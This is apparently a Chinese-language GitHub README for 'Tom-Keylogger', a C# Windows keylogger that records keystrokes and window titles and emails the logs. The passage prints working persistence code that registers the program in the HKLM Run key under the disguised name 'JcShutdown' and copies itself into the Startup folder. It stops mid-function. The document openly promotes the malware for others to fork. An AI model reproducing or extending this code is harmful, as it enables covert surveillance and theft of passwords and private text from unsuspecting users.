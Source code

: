 # Tom-Keylogger
![Image](https://github.com/tomridder/kl2/blob/master/trojan.jpg)

### 前言
> 本keylogger是在 [Email-keylogger](https://www.go4expert.com/forums/keylogger-email-usb-spread-written-c-t23227/)基础上进行的二次开发。

新增加的功能有
- win10,win7系统下实现开机自启动
- 实时记录当前用户开启的程序和窗口文字

若有什么不足之处，还请提出建议，附上这个 APP 的 Github 地址 [Tom-Keylogger](https://github.com/tomridder/kl2) 欢迎大家  :heart: star 和 fork.

#### 本文的主要内容
- 窗口句柄记录，按键记录,email效果演示
- win10,win7系统下实现开机自启动实现
- 实时记录当前用户开启的程序和窗口文字
- 如何成功实现发送txt文件到邮箱
#### 1.窗口句柄记录，按键记录 效果演示：

![Image](https://github.com/tomridder/kl2/blob/master/screenshot.png)

#### 2.email记录效果演示

![Image](https://github.com/tomridder/kl2/blob/master/email.png)

#### 2. win10,win7系统下实现开机启动实现：

**(1)win7下实现开机启动**
```
        public static void Start()
        {
            //    MessageBox.Show("设置开机自启动，需要修改注册表", "提示");
        
            string path = Application.ExecutablePath;
            RegistryKey rk = Registry.LocalMachine;//读取 Windows 注册表基项 HKEY_LOCAL_MACHINE
            RegistryKey rk2 = rk.CreateSubKey(@"Software\Microsoft\Windows\CurrentVersion\Run");
            rk2.SetValue("JcShutdown", path);// exe 加入开机启动：）
            rk2.Close();
            //MessageBox.Show("Added To Started Up Successfully :) ");
        }
```
- 代码很简单，只是将启动的项目名称、文件位置添加到启动项即可，在win7下成功实现。win10下打开任务管理器中的启动项目可以发现该程序，但是开机后程序并没有
运行，这就牵扯到了第二种方法。

**(2)win10下实现开机启动**
```
        public static void startup()
        {
            //Try to copy keylogger in some folders
            string source = Application.ExecutablePath.ToString();//当前可执行文件的路径
            Console.WriteLine(source);
            string destination = Environment.GetFolderPath(Environment.SpecialFolder.Startup);//开机启动区 路径
            Console.WriteLine(destination);
            destination = System.IO.Path.Combine(destination, "kl2.exe");// 将两个路径合二为一
            try
            {
                System.IO.File.Copy(source, destination, true);// 把当前文件 复制到 开机启动区去
                source = destination;
            }
            catch
```